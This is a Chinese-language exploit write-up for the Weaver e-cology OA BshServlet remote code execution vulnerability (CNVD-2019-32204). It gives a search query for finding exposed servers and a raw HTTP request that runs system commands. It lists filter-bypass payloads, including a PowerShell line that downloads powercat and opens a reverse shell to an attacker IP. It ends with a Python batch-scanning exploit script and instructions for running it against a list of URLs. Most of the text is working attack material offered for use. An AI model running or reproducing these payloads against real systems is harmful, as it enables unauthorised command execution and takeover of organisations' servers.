

# 泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## 网络测绘

```
app=“泛微-协同办公OA”
```

## 漏洞影响

```
E-cology 7.0
E-cology 8.0
E-cology 8.1
E-cology 9.0
```

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”



请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

**关于绕过**

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

## 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```plain
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议
```